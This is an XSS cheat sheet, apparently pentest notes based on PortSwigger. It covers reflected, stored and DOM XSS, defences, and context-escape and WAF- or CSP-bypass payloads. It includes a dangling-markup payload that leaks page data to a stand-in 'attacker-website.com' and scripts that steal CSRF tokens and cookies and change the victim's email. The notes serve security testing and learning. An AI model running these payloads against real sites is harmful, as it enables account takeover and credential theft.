 # Cross-Site Scripting

Cross-Site Scripting is all about getting malicious javascript to execute. This allows an attacker to do basically anything on the client-side of the targeted user. A basic test to check if XSS is working, is by invoking the `alert(1)` function. Or use `alert(document.domain)` to show what domain the javascript is executing on. 

An attacker is then able to
- Impersonate or masquerade as the victim user
- Carry out any action that the user is able to perform
- Read any data that the user is able to access
- Capture the user's login credentials
- Perform virtual defacement of the web site
- Inject trojan functionality into the web site

## Reflected XSS
User input is immediatly reflected in the response in an unsafe way that allows for malicious javascript to execute. For example in a search feature it says "Results for '\<script>alert(1)\</script>'".

1. Test every entry point, input parameters, URL file path, http headers, etc
2. Submit random alphanumeric values, and check if they are reflected
3. Determine the reflection context, inbetween tags, in javascript string, etc. Take a look at the [Proof of Concepts](#proof-of-concepts) on how to escape certain contexts
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## Stored XSS
Inputted data is later used by the application in an unsafe way that allows for malicious javascript to execute. For example in a comment feature "Comment: \<script>alert(1)\</script>".

1. Try to find connections between entry points (input parameters, URL file path, http headers, etc) and exit points (all http responses that are returned to a user in any situation)
2. Do this by submitting specific values into all entry points, and monitoring if any response contains any of those values
3. Determine the context, inbetween tags, in javascript string, etc. Take a look at the [Proof of Concepts](#proof-of-concepts) on how to escape certain contexts
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## DOM-based XSS
Client-side javascript processes data in an unsafe way, usually by writing the data back to the [DOM](https://en.wikipedia.org/wiki/Document_Object_Model). For example, javascript reads a value from an input field and writes it back to an HTML element.

You need a source, e.g.:
```js
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location.search
location.hash
document.cookie
document.referrer
```

And a sink in the javascript code, e.g.: 
```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
eval()
```

Or a sink in third-party libraries/frameworks, e.g. [jQuery](https://jquery.com/) (sink: `$(xss)`), [AngularJS](https://angularjs.org/) (sink: `{{xss}}`), etc

To find what sources and sinks work, input random strings, and use developer tools to inspect the HTML, or use a javascript debugger. This task can be quite tedious.

## Dangling Markup
Imagine a normal XSS attack is not possible, but you can still inject some input that gets parsed in an unsafe way. Then you can sometimes perform a dangling markup attack. Use a payload like this:

```html
"><img src='//attacker-website.com?
```

This first breaks out of the parent html tag, and then uses an img tag to make a request to the attacker controlled website. But notice that the source link does not have a closing qoute. Now all characters up until some `'` get sent to the attacker controlled website. If you are lucky, this might include CSRF tokens, passwords, or something else sensitive.

## Protections
- The [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) limits the effect of XSS attacks. Or even fully blocks some injected scripts to execute
- Encoding data on output
- Validating input on arrival

These three together do a good job of protecting against XSS. Probably the most vulnerable parts of a website are places where users are allowed to input some kind of html markup. Because it is hard to blacklist every malicious attribute, and whitelisting might not cut it.

## Proof of Concepts

Take a look at this amazing [Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) from portswigger.

### In Attribute String
```html
"><script>alert(1)</script>
```
```html
" autofocus onfocus=alert(1) x="
```
```html
<a href="javascript:alert(1)">
```

### In Javascript String
```html
</script><img src=1 onerror=alert(1)>
```
```js
'-alert(1)-'
```
```js
';alert(1)//
```
```js
\';alert(1)//
```
```html
&apos;-alert(1)-&apos;
```

### Blocked characters | WAF
```html
onerror=alert;throw 1
```
```html
<script>{onerror=eval}throw'=alert\x281\x29'</script>
```
```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Template Literal
```js
${alert(1)}
```

### AngularJS | Sandboxed | CSP
```js
'a'.constructor.prototype.charAt=[].join
$eval('x=alert(1)')
```
```js
// fromCharCode() translates to: x=alert(1)
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
<!-- Or use array.map() to hide from the CSP: "[1].map(alert)" -->
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```
```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=foo@bar.com')
};
</script>
```

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/cross-site-scripting